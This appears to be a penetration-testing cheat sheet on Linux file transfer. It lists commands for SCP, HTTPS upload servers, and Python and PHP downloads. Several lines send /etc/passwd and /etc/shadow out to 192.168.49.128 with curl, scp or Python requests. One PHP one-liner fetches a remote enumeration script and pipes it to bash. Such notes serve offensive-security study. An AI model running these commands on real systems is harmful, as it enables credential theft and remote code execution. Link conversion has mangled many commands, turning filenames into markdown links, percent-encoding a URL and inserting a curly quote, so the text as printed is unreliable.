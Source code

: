 - SSH Downloads
    - sudo systemctl enable ssh
    - sudo systemctl start ssh
    - netstat -lnpt
    - scp [plaintext@192.168.49.128](mailto:plaintext@192.168.49.128):/root/myroot.txt .
- Web Upload
    - sudo python3 -m pip install --user uploadserver
    - openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server’
    - mkdir https && cd https
    - sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
    - curl -X POST [https://192.168.49.128/upload](https://192.168.49.128/upload) -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
    - python3 -m http.server
    - python2.7 -m SimpleHTTPServer
    - php -S 0.0.0.0:8000
    - ruby -run -ehttpd . -
    - wget 192.168.49.128:8000/filetotransfer.txt
- SCP Upload
    - scp /etc/passwd [plaintext@192.168.49.128](mailto:plaintext@192.168.49.128):/home/plaintext/

### With code

- Python download
    - python2.7 -c 'import urllib;urllib.urlretrieve ("[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)", "[LinEnum.sh](http://linenum.sh/)")'
    - python3 -c 'import urllib.request;urllib.request.urlretrieve("[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)", "[LinEnum.sh](http://linenum.sh/)")'
- PHP
    - php -r '$file = file_get_contents("[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)"); file_put_contents("[LinEnum.sh](http://linenum.sh/)",$file);'
    - php -r 'const BUFFER = 1024; $fremote =
    fopen("[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)", "rb"); $flocal = fopen("[LinEnum.sh](http://linenum.sh/)", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
    - php -r '$lines = @file("[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
- Check module for other
- Python Upload
    - python3 -m uploadserver
    - python3 -c 'import requests;requests.post("[http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb](http://192.168.49.128:8000/upload%22,files=%7B%22files%22:open(%22/etc/passwd%22,%22rb)")})'

### Miscellaneous
